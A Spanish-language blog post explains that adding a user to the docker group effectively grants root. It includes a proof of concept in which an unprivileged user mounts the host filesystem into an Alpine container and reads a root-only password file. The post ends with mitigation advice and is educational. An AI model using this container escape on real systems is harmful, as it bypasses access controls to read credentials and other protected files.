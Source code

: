 ```yaml
---
title: 'Docker puede ser un problema de seguridad en tu sistema'
date: '2022-02-13'
tags: ["Hacking", "Docker", "Vulnerabilities", "#Import 2022-12-20 21:06"]
draft: false
authors: ['default']
summary: Docker nació o mejor dicho fue presentado al público en la PyCon de 2013 en una charla titulada 
---
```


Docker nació (o mejor dicho, fue presentado al público) en la PyCon de 2013 en una charla titulada *"The future of Linux Containers"*. Recomiendo ver el video que aparece a continuación (son menos de 6 minutos) y disfrutar del hecho de que en la informática, estamos viviendo lo que en un futuro será la "historia del desarrollo de software".

Y es que los *Albert Einstein* del software como *[Linus Torvalds](https://es.wikipedia.org/wiki/Linus_Torvalds), [Robert C. Martin](https://es.wikipedia.org/wiki/Robert_C._Martin), [Martin Fowler](https://martinfowler.com/), [Guido Van Rossum](https://es.wikipedia.org/wiki/Guido_van_Rossum)* o muchos de los inventores de lenguajes de programación que se encuentran en el 99% del software que utilizamos, están vivos a día de hoy.

Pero volviendo al tema de Docker. Docker no trajo consigo la tecnología de contenedores que se usa en Linux. Esto es algo que lleva existiendo desde [hace más de 20 años](https://blog.aquasec.com/a-brief-history-of-containers-from-1970s-chroot-to-docker-2016) con diferentes nombres como Chroot en 1979, Jails en el 2000 y contenedores a partir de 2004. Pero no fue hasta el 2013 cuando esta tecnología se empezó a utilizar por la mayoría de la gente.

La verdadera ventaja que trajo Docker, fue la posibilidad de intercambiar imágenes de contenedores entre sistemas de una forma sencilla con los manifiestos Dockerfile y todo el ecosistema de alrededor. Pero no está libre de ser juzgado por mucha gente.

**Uno de los problemas que se le achaca a Docker es que Docker Daemon se ejecuta como Root.** Y esto trae implicaciones indirectas como veremos a continuación.

Cuando instalamos Docker siguiendo el tutorial su [página oficial](https://docs.docker.com/engine/install/ubuntu/), nos invita a seguir un proceso post-instalación en la [siguiente página](https://docs.docker.com/engine/install/linux-postinstall/) donde nos enseñan que **podemos ejecutar Docker sin permisos de root, metiendo a un usuario normal al grupo de Docker**. Y es que aquí está la clave del problema. Podemos llegar a pensar que ejecutar Docker con un usuario normal es más seguro, cuando eso no cambia nada y de hecho, te da una sensación de seguridad que puede resultarte caro como veremos en la prueba de concepto.

Por romper una lanza a favor de ellos, en esa misma página podemos encontrar el cuadro a continuación.

![](https://blog.ikerocio.com/content/images/2022/02/image-23.png)Y es que si, todos (o al menos yo alguna vez) solemos pasar por alto este tipo de mensajes si es que hemos llegado a verlos, porque en la mayoría de los blogs donde nos enseñan a instalar Docker en nuestro sistema directamente no nos previenen del riesgo de tener un usuario "sin privilegios" en el grupo de Docker. Además, "eso de Daemon Attack Surface a mi me suena a chino" 😎.

Prueba de concepto
==================

1. Contexto del problema
------------------------

Tenemos 2 usuarios en nuestro sistema, **root** y **demo**.


```
──[root@parrot]─[/root]──# id
uid=0(root) gid=0(root) grupos=0(root)
```

```
──[demo@parrot]─[/home/demo]$ id
uid=1001(demo) gid=1003(demo) grupos=1003(demo),1000(docker)
```
Como vemos, demo está en el grupo Docker para poder lanzar contenedores y realizar su gestión. Como demo es un usuario con pocos privilegios, además, es un poco con el que solemos hacer todo pensando que así estamos más seguros.

2. El archivo "protegido" de root
---------------------------------

Hay un archivo en /home que se llama password.txt. Este archivo, en principio, tiene permisos 400 para que solo el usuario root pueda leer su contenido.


```
──[root@parrot]─[/home]──# ls -l
total 4
drwxr-xr-x 1 demo demo 204 Feb 13 21:00 demo
-r-------- 1 root root  16 Feb 13 21:03 password.txt
drwxr-xr-x 1 user user 614 Feb 13 19:53 user
```
![](https://blog.ikerocio.com/content/images/2022/02/image-24.png)Si no conoces como funcionan los permisos de Linux no pasa nada, simplemente créete la siguiente afirmación de lo que ocurre.

**Ningún otro usuario, ni grupo del sistema, puede acceder al contenido del archivo password.txt con los permisos actuales.**

Si aún así intentamos leer su contenido con el usuario demo, vemos el siguiente error.


```
──[demo@parrot]─[~/demo]───$ cat /home/password.txt 
cat: /home/password.txt: Permiso denegado
```
Hasta aquí todo bien, ¿correcto?

3. Docker Daemon Attack Surface
-------------------------------

A continuación, el usuario demo, el que no tenía privilegios, el que no podía leer el contenido de root, crea un contenedor del siguiente modo.


```
──[demo@parrot]─[~/demo]───$ docker run -v /:/vulnerable -it alpine /bin/sh
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
59bf1c3509f3: Pull complete 
Digest: sha256:21a3deaa0d32a8057914f36584b5288d2e5ecc984380bc0118285c70fa8c9300
Status: Downloaded newer image for alpine:latest
/ #
```
Y una vez, dentro del contenedor, empieza la magia 🧙‍♂️.


```
/ # whoami
root
/ # cat vulnerable/home/password.txt
P0wn3dP@ssw0rd!
```
Es decir, un usuario sin privilegios, fuera del contexto de los contenedores no teníamos acceso a los archivos que root controlaba. 

Dentro del contexto de los contenedores, si mapeamos en un volumen la raíz de todo el disco a una ruta del contenedor, tendremos control total de los archivos del sistema.

4. Conclusión
-------------

¿Es el título del post clickbait? En parte sí. Más que una vulnerabilidad es un problema de no tener las cosas bien configuradas. 

¿La página oficial de Docker podría explicar el problema o señalarlo de una mejor forma? Seguro que también.

La realidad es que ellos no tienen la culpa. En su misma página explican todo esto. Y la realidad también es que poca gente es conocedora de este problema de "mala configuración". Es responsabilidad de todos hacer pedagogía y explicarles a nuestros compañeros los riesgos que acarrea según que cosas y yo, con este post, dejo mi granito de arena.

¿Cómo deberías mitigar esto? Teniendo en mente que el usuario con el que gestionas Docker es como un usuario root. Protégelo con una buena contraseña y aíslalo del resto de cosas que haces en el sistema.

